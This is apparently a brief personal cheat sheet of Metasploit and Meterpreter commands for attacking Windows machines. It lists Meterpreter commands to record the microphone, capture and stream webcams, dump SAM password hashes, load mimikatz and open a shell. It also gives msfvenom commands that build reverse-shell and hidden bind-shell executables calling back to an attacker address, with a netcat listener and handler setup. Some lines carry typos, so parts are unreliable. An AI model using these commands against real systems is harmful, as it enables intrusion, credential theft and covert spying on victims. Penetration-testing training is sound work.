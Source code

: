 			Meterpreter
### Webcam
- `record_mic`     Record audio from the default microphone for X seconds
- `webcam_chat`    Start a video chat
- `webcam_list`    List webcams
- `webcam_snap`    Take a snapshot from the specified webcam
- `webcam_stream`  Play a video stream from the specified webcam

### Misc

- `hashdump` will retrieve all hashed frm sam file
- `load kiwi` will in let us use mimikatz
- `screenshot` Grab a screenshot of the interactive desktop
- `shell`  get a shell on remote machine

# MSFvenoim
WINDOWS reverse shell
- get ip `ip a`
- `msfvenom -p windows/shell_reverse_tcp lhost=$IP lport=443 -f exe > shell.exe`
- `nc -lvnp 443`

msfvenom -p windows/shell_hidden_bind_tcp ahost=192.168.1.224 lport=443 -f exe > bind.exe    

# Getting a meterpreter shell
- `use exploit/multi/handler`
- `set payload`
- `lport 443`
- `exploit`


https://www.hackingarticles.in/msfvenom-cheatsheet-windows-exploitation/